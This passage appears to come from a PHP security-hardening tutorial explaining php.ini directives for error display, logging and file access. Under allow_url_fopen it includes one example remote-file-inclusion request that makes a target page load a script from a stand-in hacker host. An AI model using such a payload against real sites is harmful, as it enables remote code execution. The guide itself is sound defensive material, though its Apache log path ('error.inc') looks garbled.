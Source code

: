 * display_errors:

This directive allows the display of PHP errors: in production, it must be set to Off (under penalty of providing valuable information to a potential hacker such as the name of your tables, etc.) and, of course, in development, it will need to be set to On.

* error_reporting:

Indicates the types of errors that PHP should report. When choosing to display them, it is recommended to display as many error messages as possible. The recommended values for PHP5 are E_ALL | E_STRICT and E_ALL for PHP4.

* log_errors:

Tells PHP to keep a list of errors encountered in a log file. It is useful to enable this directive even in production for error tracking without direct display.

* error_log:

If the log_errors directive has been set to On, the error_log directive allows you to specify the name and path of the log file you wish to use. Otherwise, the default file will be your Apache's error.log file (/var/log/apache2/error.inc on Debian-based distributions).

* html_errors:

Enables or disables HTML tags in error messages: if you have chosen not to display errors (display_errors to Off), this directive is useless. However, in development, by filling in the docref_root and docref_ext directives, you can have direct links to the documentation of the function that caused the error.

* docref_root:

This directive defines the path to the PHP manual. Generally, it will be:

```
docref_root = http://fr.php.net/manual/fr/
```

* docref_ext:

Defines the extension of the manual files. Again, these will generally be HTML files: docref_ext = .html.

### Managing File Access

* allow_url_fopen:

This directive allows the execution of remote files passed as a parameter of a URL. It is recommended to disable it (Off value): a hacker could have external code executed. If you have an index.php page that expects a load parameter, a hacker could execute:

```
index.php?load=http://www.the-hacker.com/script_pirate.txt
```

* open_basedir:

This directive limits the files accessible by PHP in the tree. The parameter passed to open_basedir is considered as a prefix: if you specify open_basedir = /include/mon_rep, you will give access to /include/mon_rep, /include/mon_repertoire,... To determine a specific directory, you will have to end the path name with a "/".
